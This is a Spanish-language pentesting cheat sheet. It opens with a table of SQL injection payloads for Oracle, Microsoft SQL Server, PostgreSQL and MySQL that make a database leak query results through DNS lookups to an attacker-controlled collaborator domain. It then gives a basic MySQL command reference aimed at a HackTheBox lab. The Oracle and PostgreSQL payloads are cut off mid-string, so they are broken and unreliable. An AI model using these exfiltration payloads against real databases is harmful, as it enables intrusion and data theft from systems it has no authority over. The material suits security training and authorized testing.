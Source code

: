 ## Búsqueda de DNS con exfiltración de datos

Puede hacer que la base de datos realice una búsqueda de DNS en un dominio externo que contenga los resultados de una consulta inyectada.

|Motor|Consulta|
|---|---|
|Oaracle|`SELECT EXTRACTVALUE(xmltype('<!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'|
|Microsoft|`declare @p varchar(1024);set @p=(SELECT YOUR-QUERY-HERE);exec('master..xp_dirtree "//'+@p+'.BURP-COLLABORATOR-SUBDOMAIN/a"')`|
|PostgreSQL|`create OR replace function f() returns void as $$ declare c text; declare p text; begin SELECT into p (SELECT YOUR-QUERY-HERE); c := 'copy (SELECT '''') to program ''nslookup '|
|MySQL|`SELECT YOUR-QUERY-HERE INTO OUTFILE '\\BURP-COLLABORATOR-SUBDOMAIN\a'`|

Este es un resumen de las técnicas comunes de inyección SQL. ¡Úsalo con responsabilidad! 🚀

---

# MySQL Cheat Sheet para Pentesters

---

## General

| Comando | Descripción |
|--------|-------------|
| `mysql -u root -h docker.hackthebox.eu -P 3306 -p` | Inicia sesión en la base de datos |
| `SHOW DATABASES` | Lista las bases de datos disponibles |
| `USE users` | Cambia a una base de datos específica |

---

## Tablas

| Comando | Descripción |
|--------|-------------|
| `CREATE TABLE logins (id INT, ...)` | Crea una nueva tabla |
| `SHOW TABLES` | Lista las tablas en la base de datos actual |
| `DESCRIBE logins` | Muestra propiedades de columnas |
| `INSERT INTO table_name VALUES (...)` | Inserta valores en todas las columnas |
| `INSERT INTO table_name(column2, ...) VALUES (...)` | Inserta valores en columnas específicas |
| `UPDATE table_name SET col1=val1 WHERE ...` | Actualiza valores en la tabla |

---
